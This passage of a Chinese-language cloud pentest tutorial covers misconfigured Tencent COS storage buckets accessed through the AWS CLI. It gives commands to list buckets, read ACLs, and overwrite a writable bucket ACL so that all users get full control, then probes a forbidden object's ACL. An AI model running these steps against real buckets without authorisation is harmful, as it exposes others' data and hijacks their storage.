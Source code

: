 ```bash
aws s3api list-objects --endpoint-url http://cos.ap-beijing.myqcloud.com  --bucket testbucket1-1305357004
```

如果被拒绝的话，查看目标Bucket的ACL：

```bash
#查看目标Bucket的ACL
aws s3api get-bucket-acl --endpoint-url http://cos.ap-beijing.myqcloud.com  --bucket testbucket1-1305357004
```

如果可写存储桶的ACL，则可以直接将策略写入：

```bash
aws s3api put-bucket-acl --bucket testbucket1-1305357004 --access-control-policy file://acl.json
```

acl.json：

```json
{
    "Owner": {
        "DisplayName": "qcs::cam::uin/100018278953:uin/100018278953",
        "ID": "qcs::cam::uin/100018278953:uin/100018278953"
    },
    "Grants": [
	{
            "Grantee": {
                "Type": "Group", 
                "URI": "http://cam.qcloud.com/groups/global/AllUsers"
            }, 
            "Permission": "FULL_CONTROL"
        } 
    ]
}
```

即可实现任何人都对存储桶有完全控制权。

### 5.Object ACL可写

```bash
aws s3 ls --endpoint-url http://cos.ap-beijing.myqcloud.com s3://testbucket1-1305357004
```



尝试读取Object：

```bash
aws s3 cp s3://testbucket1-1305357004/1.txt ./ --endpoint-url http://cos.ap-beijing.myqcloud.com
```

提示forbiden话说，读取一下Object的ACL：

```bash
aws s3api get-object-acl --bucket testbucket1-1305357004 --endpoint-url http://cos.ap-beijing.myqcloud.com  --key  1.txt
```
